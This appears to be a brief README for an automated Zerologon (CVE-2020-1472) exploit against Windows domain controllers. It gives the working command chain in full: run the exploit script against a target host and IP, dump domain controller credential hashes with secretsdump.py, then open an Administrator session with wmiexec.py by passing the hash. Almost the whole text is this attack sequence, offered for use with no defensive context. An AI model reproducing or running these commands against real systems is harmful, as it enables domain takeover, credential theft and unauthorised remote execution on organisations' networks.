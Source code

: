 # zerologon automated 
run this script as a root user 

sudo su 

After installation is completed then run the python script as following 

python3 cve-2020-1472-exploit.py -n computername -t target ip

  secretsdump.py -no-pass -just-dc domain/computername\$@targetip

  wmiexec.py -hashes hashdump of administrator domain/Administrator@targetip

